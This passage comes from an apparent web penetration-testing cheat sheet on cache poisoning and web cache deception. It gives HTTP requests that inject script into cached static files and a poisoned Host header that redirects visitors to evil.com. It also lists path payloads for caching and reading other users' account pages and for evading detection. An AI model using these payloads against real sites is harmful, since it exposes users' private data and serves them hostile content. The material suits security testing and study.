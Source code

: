 Steps:

* Identify pages where inputs are reflected across multiple responses (e.g., headers in CSS/JS files).

* Inject payloads into static resources:
```html
GET /style.css?excluded_param=alert(1); HTTP/1.1
Host: example.com
```
If the response includes `alert(1);`, all pages importing `/style.css` will execute the payload.

### 5. Precautionary Measures

* Use controlled domains (e.g., `evil.com`) for payloads to avoid collateral damage.

* Test with harmless payloads first (e.g., `alert(document.domain)`).

* Bust the cache after testing:
```html
GET /?cachebuster=random123 HTTP/1.1
Host: example.com
```
Example Scenario:

* Flaw: Cache excludes the port from the Host header.

Exploit:

* Poison the cache with a malicious port:
```html
GET / HTTP/1.1
Host: example.com:evil.com
```
* Users visiting `example.com` receive the poisoned response:
```html
HTTP/1.1 302 Moved Permanently
Location: https://example.com:evil.com/en
Cache-Status: hit
```



# Cache Deception
### Caching Sensitive Data
Web Cache Deception on PayPal Home Page
1. Normal browsing, visit home : `https://www.example.com/myaccount/home/`
2. Open the malicious link : `https://www.example.com/myaccount/home/malicious.css`
3. The page is displayed as `/home` and the cache is saving the page
4. Open a private tab with the previous URL : `https://www.example.com/myaccount/home/malicous.css`
5. The content of the cache is displayed

## Detection Bypass Techinques (Cache Deception)
* `/profile%2ecss`
* `/profile/;test.css`
* `/profile/!test.css`
* `/profile/.css`
* `/api/messages%0A%0D-test.css`
* `/api/aut/%0A%0D%09session.css`
